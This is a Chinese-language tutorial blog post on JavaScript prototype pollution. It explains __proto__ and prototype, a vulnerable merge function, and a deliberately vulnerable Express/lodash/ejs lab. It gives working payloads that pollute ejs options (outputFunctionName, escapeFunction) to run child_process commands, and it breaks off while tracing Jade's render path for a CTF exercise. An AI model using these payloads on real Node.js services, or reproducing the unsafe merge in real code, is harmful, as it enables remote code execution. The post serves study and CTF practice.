## 前言

昨天面试被问到不会的了，问题是python原型链污染和Nodejs原型链污染的区别，刚好只学了python原型链没学js原型链，也算是给自己敲个警钟吧

翻到了p牛的文章[深入理解 JavaScript Prototype 污染攻击](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html#0x02-javascript)

## 前置知识

在JavaScript中并没父类和子类的概念，对象是由函数创建的，而函数又是另一种对象。在JavaScript中几乎所有东西都是一种对象，例如

```javascript
var a = {
    "name" : "wanth3f1ag",
    "age" : 20
}
console.log(a.name)
console.log(a.age)
```



这里访问对象属性的方法不止一种，还能用`a["name"]`的方式去访问

## 0x01继承与原型链

在学习原型链污染之前，还是常规套路，就是了解原型链的基础知识，强烈推荐https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Guide/Inheritance_and_the_prototype_chain这篇文章，看完之后会对原型链和继承有个基本的认识，不过接下来我还是会一一介绍的

- 什么是继承

只要学过编程的话，相信对这个概念并不陌生，继承就相当于遗传，从父代传到子代，例如我们a类继承了A类，那么A类父代的特性都会传到a类子代中

- 什么是原型

在 JavaScript 中，原型（prototype）是一个非常重要的概念，每个 JavaScript 对象都有一个与之关联的原型对象，对象会以原型为模板，从原型继承属性和方法，通过原型对象，可以实现属性和方法的共享，并且原型对象也可能有原型



- 什么是原型链

JavaScript 使用对象实现继承。每个对象都有一条链接到另一个称作*原型*的对象的内部链。该链子就是原型链，原型对象有自己的原型，依此类推，直到原型是 `null` 的对象。根据定义，`null` 没有原型，并作为这条*原型链*中最后的一环。

## 0x02攻击原理

那么设计原型链污染，那肯定离不开`__proto__`和`prototype`

### `__proto__`和prototype

举个例子

prototype属性

```javascript
function Person(name) {
    this.name = name;
}

Person.prototype.sayHello = function() {
    console.log(`你好，${this.name}`);
};

const alice = new Person('Alice');
alice.sayHello(); // "你好，Alice"
```

所以我们可以认为原型`prototype`是类`Person`的一个属性，而所有用`Foo`类实例化的对象，都将拥有这个属性中的所有内容，包括变量和方法。比如上图中的`alice`对象，其天生就具有`alice.sayHello();`方法。

所以此时我们可以通过访问该属性去访问Person类的原型，但是Person类实例化出来的对象是不能通过prototype访问的，而是需要`__proto__`

```javascript
function Person(name) {
    this.name = name;
}

// 函数的 prototype 属性
Person.prototype.sayHello = function() {
    console.log(`你好，${this.name}`);
};

const alice = new Person('Alice');

// 对象的 __proto__ 属性
console.log(alice.__proto__ === Person.prototype); // true

// 原型链查找
console.log(alice.__proto__.__proto__ === Object.prototype); // true
console.log(alice.__proto__.__proto__.__proto__); // null
```

总结一下：

1. 一个对象的`__proto__`属性，指向这个对象所在的类的`prototype`属性
2. 每个对象都有一个名为`__proto__`的内置属性，它指向该对象的原型，每个函数/类也都有一个名为 `prototype `的属性，它指向该函数或类的原型
3. 当一个类实例化后会用于`prototype`中所有的属性和方法

### 基于原型链的继承机制

JS有一个特性，当一个对象试图访问一个属性或方法时，如果在该对象自身没有找到，JavaScript 会沿着原型链向上查找，直到找到对应的属性或方法，或者达到原型链的顶端 `null` 为止。

手操一下p牛的例子

```javascript
function Father(){
    this.firstName = "Damn";
    this.lastName = "john";
}

function Son() {
    this.firstName = "Tom";
}

Son.prototype = new Father();

const son = new Son();
console.log(son.lastName);
//john
```

这里的话Son的原型是Father对象实例，那么这里的话Son类其实是继承了Father类的所有属性和方法的，所以这里会输出Father类中的姓john

然后我们输出一下名字呢发现名字并没有变，从继承机制就可以再次明白这个原因，因为在Son类找得到这个属性，所以不会顺着原型链往上找

### 原型链污染是什么

我们这里举个简单的例子解释一下



这里输出了3，是为什么呢？

先分析一下代码，这里设置了一个对象a中有键值对number=1，对象b中有键值对number=2，然后执行了一个赋值操作

```javascript
b.__proto__.number = 3
```

这里有什么特别的呢？我们这里尝试输出一下b的number



发现b的number是2，哎，很奇怪，前面不是赋值了吗？我们再输出一下b的原型

```
> b.__proto__
[Object: null prototype] { number: 3 }
```

发现这里原型对象中有一个键值对number=3，那么这就解释的通了，这里对b的原型对象设置了一个键值对，然后在访问c的number的时候，因为c对象中并没有number，根据继承机制，会顺着原型链向上寻找，我们看一下c的原型

```
> c.__proto__
[Object: null prototype] { number: 3 }
```

发现这里跟b的原型链一样，那么就可以理解到，b和c的原型都是同一个原型`Object.prototype`，那么当c往上寻找的时候就会找到这个原型中的number并输出

所以我们可以得出原型链污染的由来：

如果我们在一个web应用中能控制并修改了一个对象的原型，那么所有与该对象来自同一个类或者父租类的对象都将会受到影响

### 污染的条件

既然是修改对象的值（原型也是对象），那么找找能够控制对象键名的操作就行（例如python中的merge）

p牛这里给出了一个merge对象，我们写一个很简单的merge函数实现

```javascript
function merge(target , source){
    for (let key in source){
        if(key in source && key in target){
            merge(target[key],source[key])
        } else {
            target[key] = source[key]
        }
    }
}
```

这里的话会遍历source中所有的属性，如果source和target中都有该属性，则执行合并操作，没有的话则直接赋值

该说不说，不如拿个实例调试一下

```javascript
const target = {a : {b : 1}};
const source = {a : {c : 2}};
```

然后我们调试一下



先是提取了source的key，这里的key为`a`



因为这里两个key一样，所以进入递归



再次提取key为c，但是target的key为b，此时进入不了if语句，进入else语句，那么此时就会生成一个键值对`c : 2`，所以最后的target就是

```javascript
{ a: { b: 1, c: 2 } }
```

因为这里存在赋值的操作，那么如果key是`__proto__`呢，我们是否就可以实现原型链污染呢

测试一下

```javascript
let target = {}
let source = {a: 1,"__proto__" :{b : 2}}
merge(target,source)
console.log(target)
let a = {}
console.log(a.b)
```



合并执行了但是并没有污染，这是为什么呢？

其实是因为，在source创建对象的过程中，其里面的`__proto__`已经是表示的是source的原型了，例如我们打印一下source的原型



那么此时遍历source的所有键名，我们拿到的只能是a和b而没有`__proto__`，自然也就不会污染对象原型的值

所以我们需要解决一个问题，那就是如何让`__proto__`被认为是一个Key？很简单，就是关于json的解析问题，如果我们将代码改一下

```javascript
let target = {}
let source = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(target,source)
console.log(target)
let a = {}
console.log(a.b)
```

这里利用JSON.parse函数将json格式的数据转化成对象，那么此时对象就是键值对的形式，`__proto__`就会被认为是一个key而非其原型

### 不同对象的原型链

我们看看不同类型对象的原型链是什么样的

```javascript
var a = {a: 1};
// o对象直接继承了Object.prototype
// 原型链：
// o ---> Object.prototype ---> null

var a = ["yo", "whadup", "?"];
// 数组都继承于 Array.prototype
// 原型链：
// a ---> Array.prototype ---> Object.prototype ---> null

function a(){
  return 2;
}
// 函数对象都继承于 Function.prototype
// 原型链：
// f ---> Function.prototype ---> Object.prototype ---> null
```

在了解了不同对象的原型链后，我们就能理解为什么同类型的不同对象访问同一个属性的时候为什么值是一样的了

## ejs模板引擎原型链污染导致RCE

在js中常规来说RCE的前提都是需要有原型链污染的，那我们看看ejs模板引擎里怎么实现RCE的呢？

本地搭建一下环境

创建一个index.js

```javascript
var express = require('express');
var _= require('lodash');
var ejs = require('ejs');

var app = express();
//设置模板的位置
app.set('views', __dirname);
//进行渲染
app.get('/', function (req, res) {
    var malicious_payload = req.query.malicious_payload;
    _.merge({}, JSON.parse(malicious_payload));
    res.render ("./test.ejs",{
        message: 'lufei test '
    });
});

//设置http
var server = app.listen(8888, function () {

    var port = server.address().port

    console.log("测试环境，访问地址为 http://127.0.0.1:%s", port)
});
```

然后写个模板引擎文件test.ejs

```ejs
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title></title>
</head>
<body>

<h1><%= message%></h1>

</body>
</html>
```

这两个文件需要在同一目录下并且版本要对

安装一下依赖

```
npm init -y
npm install ejs@3.1.5 lodash@4.17.4 express
```

第一个是node.js项目初始化的一个命令，第二个就是安装一些依赖和第三方库



传入payload

```
http://localhost:8888/?malicious_payload={"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('calc');var __tmp2"}}
```



分析一下

### 源码分析&接近真相

其实这里本来没有替换函数，但是在loadsh中有原生的替换函数，参考官方文档[lodash.merge](https://www.lodashjs.com/docs/lodash.merge)

我们跟进这个函数看一下



跟进后发现

```javascript
//assignMergeValue
    function assignMergeValue(object, key, value) {
      if ((value !== undefined && !eq(object[key], value)) ||
          (value === undefined && !(key in object))) {
        baseAssignValue(object, key, value);
      }
    }
```

发现和正常的merge替换函数没什么区别

然后我们看看ejs引擎的renderFile函数

在 EJS（Embedded JavaScript）模板引擎中，renderFile() 是一个用于加载和渲染模板文件的方法。它通常与 Express 框架一起使用。

renderFile() 方法的作用是读取指定的 EJS 模板文件，并将数据填充到模板中生成最终的 HTML 内容。这个方法多用于将动态数据注入到模板中，以生成动态的网页内容

```javascript
exports.renderFile = function () {
  var args = Array.prototype.slice.call(arguments);//将arguments转为数组
  var filename = args.shift();
  var cb;
  var opts = {filename: filename};
  var data;
  var viewOpts;

  // Do we have a callback?
  if (typeof arguments[arguments.length - 1] == 'function') {
    cb = args.pop();
  }
  // Do we have data/opts?
  if (args.length) {
    // Should always have data obj
    data = args.shift();
    // Normal passed opts (data obj + opts obj)
    if (args.length) {
      // Use shallowCopy so we don't pollute passed in opts obj with new vals
      utils.shallowCopy(opts, args.pop());
    }
    // Special casing for Express (settings + opts-in-data)
    else {
      // Express 3 and 4
      if (data.settings) {
        // Pull a few things from known locations
        if (data.settings.views) {
          opts.views = data.settings.views;
        }
        if (data.settings['view cache']) {
          opts.cache = true;
        }
        // Undocumented after Express 2, but still usable, esp. for
        // items that are unsafe to be passed along with data, like `root`
        viewOpts = data.settings['view options'];
        if (viewOpts) {
          utils.shallowCopy(opts, viewOpts);
        }
      }
      // Express 2 and lower, values set in app.locals, or people who just
      // want to pass options in their data. NOTE: These values will override
      // anything previously set in settings  or settings['view options']
      utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
    }
    opts.filename = filename;
  }
  else {
    data = {};
  }

  return tryHandleCache(opts, data, cb);
};
```

最后会返回tryHandleCache函数的值，从代码中可以看到，如果我们能控制返回的结果，是不是就可以进行攻击注入呢？，我们跟进这个函数看下

```javascript
function tryHandleCache(options, data, cb) {
  var result;
  if (!cb) {
    if (typeof exports.promiseImpl == 'function') {
      return new exports.promiseImpl(function (resolve, reject) {
        try {
          result = handleCache(options)(data);
          resolve(result);
        }
        catch (err) {
          reject(err);
        }
      });
    }
    else {
      throw new Error('Please provide a callback function');
    }
  }
  else {
    try {
      result = handleCache(options)(data);
    }
    catch (err) {
      return cb(err);
    }

    cb(null, result);
  }
}
```

这里无论如何都会利用handleCache渲染模板，我们跟进handleCache函数看看

```javascript
function handleCache(options, template) {
  var func;
  var filename = options.filename;
  var hasTemplate = arguments.length > 1;

  if (options.cache) {
    if (!filename) {
      throw new Error('cache option requires a filename');
    }
    func = exports.cache.get(filename);
    if (func) {
      return func;
    }
    if (!hasTemplate) {
      template = fileLoader(filename).toString().replace(_BOM, '');
    }
  }
  else if (!hasTemplate) {
    // istanbul ignore if: should not happen at all
    if (!filename) {
      throw new Error('Internal EJS error: no file name or template '
                    + 'provided');
    }
    template = fileLoader(filename).toString().replace(_BOM, '');
  }
  func = exports.compile(template, options);
  if (options.cache) {
    exports.cache.set(filename, func);
  }
  return func;
}
```

这个函数的返回值是`func`，而`func`是` exports.compile(template, options)`的返回值,我们跟进complie函数


如果能够覆盖 `opts.outputFunctionName` , 这样我们构造的payload就会被拼接进js语句中，并在 ejs 渲染时进行 RCE

```javascript
prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
```

例如我们拼接命令语句

```javascript
prepended += '  var ' + outputFunctionName":"__tmp1;global.process.mainModule.require(\'chile_process\').execSync(\'ls\');var __tmp2 + ' = __append;' + '\n';
```

前后分别给出一个变量，中间插入我们的命令执行语句，当然后面的也可以直接注释掉

所以我们可以传入opts.outputFunctionName的值为

```javascript
outputFunctionName":"__tmp1;global.process.mainModule.require(\'chile_process\').execSync(\'ls\');var __tmp2
```

这时候就需要用原型链污染了，将outputFunctionName的值污染一下就可以实现RCE了

参考题目：ctfshowweb入门341

ejs模板引擎RCE不止存在一个，还有另一处能RCE

```javascript
var escapeFn = opts.escapeFunction;
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```

这里也同样会拼接，污染 `opts.escapeFunction` 也可以进行 RCE

```
{"__proto__":{"__proto__":{"client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('dir');","compileDebug":true}}}

{"__proto__":{"__proto__":{"client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('dir');","compileDebug":true,"debug":true}}}
```

## jade模板原型链污染导致RCE

懒得搭环境了，直接拿web342的附件来分析了

先在app.js中加上一个调试的端口地址

```javascript
var server = app.listen(8888, function () {

    var port = server.address().port

    console.log("测试环境，访问地址为 http://127.0.0.1:%s", port)
});
```

打好断点后我们启动调试，访问8888端口后开始执行渲染



单步执行跳到render渲染点



然后跟进执行看一下`__express`



此时会进入renderFile函数，我们跟进看一下

```javascript
exports.renderFile = function(path, options, fn){
  // support callback API
  if ('function' == typeof options) {
    fn = options, options = undefined;
  }
  if (typeof fn === 'function') {
    var res
    try {
      res = exports.renderFile(path, options);
    } catch (ex) {
      return fn(ex);
    }
    return fn(null, res);
  }

  options = options || {};

  options.filename = path;
  return handleTemplateCache(options)(options);
};
```

最后会返回handleTemplateCache函数的执行结果，跟进一下



```javascript
function handleTemplateCache (options, str) {
  var key = options.filename;
  if (options.cache && exports.cache[key]) {
    return exports.cache[key];
  } else {
    if (str === undefined) str = fs.readFileSync(options.filename, 'utf8');
    var templ = exports.compile(str, options);
    if (options.cache) exports.cache[key] = templ;
    return templ;
  }
}
```

这里的话会返回templ参数的结果，而这个参数来源于compile方法，我们跟进一下



我们挨个打断点看看哪里出问题，先看第一个红框

这里会先进入parse函数

```javascript
function parse(str, options){

  if (options.lexer) {
    console.warn('Using `lexer` as a local in render() is deprecated and '
               + 'will be interpreted as an option in Jade 2.0.0');
  }

  // Parse
  var parser = new (options.parser || Parser)(str, options.filename, options);
  var tokens;
  try {
    // Parse
    tokens = parser.parse();
  } catch (err) {
    parser = parser.context();
    runtime.rethrow(err, parser.filename, parser.lexer.lineno, parser.input);
  }

  // Compile
  var compiler = new (options.compiler || Compiler)(tokens, options);
  var js;
  try {
    js = compiler.compile();
  } catch (err) {
    if (err.line && (err.filename || !options.filename)) {
      runtime.rethrow(err, err.filename, err.line, parser.input);
    } else {
      if (err instanceof Error) {
        err.message += '\n\nPlease report this entire error and stack trace to https://github.com/jadejs/jade/issues';
      }
      throw err;
    }
  }

  // Debug compiler
  if (options.debug) {
    console.error('\nCompiled Function:\n\n\u001b[90m%s\u001b[0m', js.replace(/^/gm, '  '));
  }

  var globals = [];

  if (options.globals) {
    globals = options.globals.slice();
  }

  globals.push('jade');
  globals.push('jade_mixins');
  globals.push('jade_interp');
  globals.push('jade_debug');
  globals.push('buf');

  var body = ''
    + 'var buf = [];\n'
    + 'var jade_mixins = {};\n'
    + 'var jade_interp;\n'
    + (options.self
      ? 'var self = locals || {};\n' + js
      : addWith('locals || {}', '\n' + js, globals)) + ';'
    + 'return buf.join("");';
  return {body: body, dependencies: parser.dependencies};
}
```

